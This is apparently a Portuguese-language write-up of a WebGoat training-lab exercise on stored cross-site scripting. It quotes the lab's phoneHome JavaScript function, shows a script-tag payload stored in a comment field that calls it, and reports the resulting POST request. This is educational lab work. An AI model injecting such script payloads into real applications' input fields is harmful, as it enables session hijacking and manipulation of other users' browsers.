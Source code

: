 **Exploração**

1. Identificação da Funcionalidade Vulnerável  

    - A função `webgoat.customjs.phoneHome` interage com o backend pelo endpoint `CrossSiteScripting/phone-home-xss`. Esta funcionalidade aceita dados que podem ser manipulados para explorar a vulnerabilidade.

        ```javascript
        webgoat.customjs.phoneHome = function (e) {
                        console.log('phoneHome invoked');
                        webgoat.customjs.jquery.ajax({
                            method: "POST",
                            url: "CrossSiteScripting/phone-home-xss",
                            data: {param1: 42, param2: 24},
                            headers: {
                                "webgoat-requested-by": "dom-xss-vuln"
                            },
                            contentType: 'application/x-www-form-urlencoded; charset=UTF-8',
                            success: function (data) {
                                console.log('phone home said '  + JSON.stringify(data));
                            }
                        });
                    }
        ```
2. **Inserção do Payload**  
     - Foi inserido um script malicioso no campo de comentários da aplicação, que permaneceu armazenado no sistema.
  
        ```html
        stored XSS <script>webgoat.customjs.phoneHome()</script>
        ```
        ![alt text](img/xss-browser.png)

3. **Execução do Payload**  
     - Saída Observada: Ao acessar novamente o comentário, o script malicioso foi executado, gerando uma requisição `POST` ao backend, que processou a entrada e retornou dados manipulados.


        ![alt text](img/xss-script.png)
